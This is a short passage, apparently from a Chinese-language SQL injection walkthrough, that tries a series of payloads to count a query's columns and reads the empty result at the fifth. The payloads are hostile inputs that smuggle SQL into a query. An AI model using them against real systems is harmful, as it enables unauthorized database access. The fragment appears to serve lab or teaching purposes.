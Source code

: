 *****尝试每一个有效载荷*****

```
*****') order by 1-- -
') order by 2-- -
') order by 3-- -
') order by 4-- -
') order by 5-- -*****
```

*****![](img/383b1816929ba7f1a2e9ceaf36ccb52b.png)*****

*****当我尝试的时候*****

```
*****') order by 5-- -*****
```

*****![](img/3184f452825339e177b3000f00bbcf77.png)*****

*****它没有向我显示任何东西，这意味着这是攻击者的错误*****
